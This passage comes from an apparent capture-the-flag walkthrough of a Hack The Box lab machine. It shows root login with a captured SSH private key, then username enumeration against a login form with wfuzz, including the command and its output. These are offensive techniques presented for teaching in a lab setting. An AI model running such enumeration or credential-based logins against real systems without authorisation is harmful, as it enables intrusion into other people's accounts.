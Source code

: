 Save the RSA private key in the file _root\_id\_rsa_ on the attack machine and change the permissions on the file.

```text
chmod 600 root_id_rsa
```

SSH into the root account.

```text
ssh -i root_id_rsa root@10.10.10.73
```

Grab the _root.txt_ flag.

![](https://miro.medium.com/max/589/1*q9Cjwm48f6xv9i_DPsfY-Q.png)

## Extra Content <a id="8cb4"></a>

After rooting the machine, I watched [ippsec’s video](https://www.youtube.com/watch?v=CUbWpteTfio) and wanted to share a few cool things that he tried that I didn’t think of trying.

**1- Username Enumeration**

Since the login form outputs a verbose message that indicates to us whether a username exists in the system or not, we can run an automated attack to enumerate usernames. This can be done using a tool called _wfuzz._

First, intercept the login request in Burp.

![](https://miro.medium.com/max/755/1*6DgulCJyu71GMWdCDzfHEw.png)

We’re dealing with a POST request and we want to enumerate the field “_username_” field. In _wfuzz_, run the following command.

```text
wfuzz -c -z file,/root/Desktop/tools/SecLists/Usernames/Names/names.txt --hs "Try again" -d "username=FUZZ&password=anything" http://10.10.10.73/login.php
```

* **-c:** Output with colors
* -**z:** payload for each FUZZ keyword used in the form
* **-hs:** hide responses with the specified regex within the content
* **-d:** use post data

We get back the following result showing that “_admin_” and “_chris_” are valid usernames.

```text
********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************Target: http://10.10.10.73/login.php
Total requests: 10163===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                                 
===================================================================000000086:   200        102 L    659 W    7091 Ch     "admin"                                                                                                                                 
000001883:   200        102 L    659 W    7091 Ch     "chris"Total time: 117.7351
Processed Requests: 10163
Filtered Requests: 10161
Requests/sec.: 86.32089
```
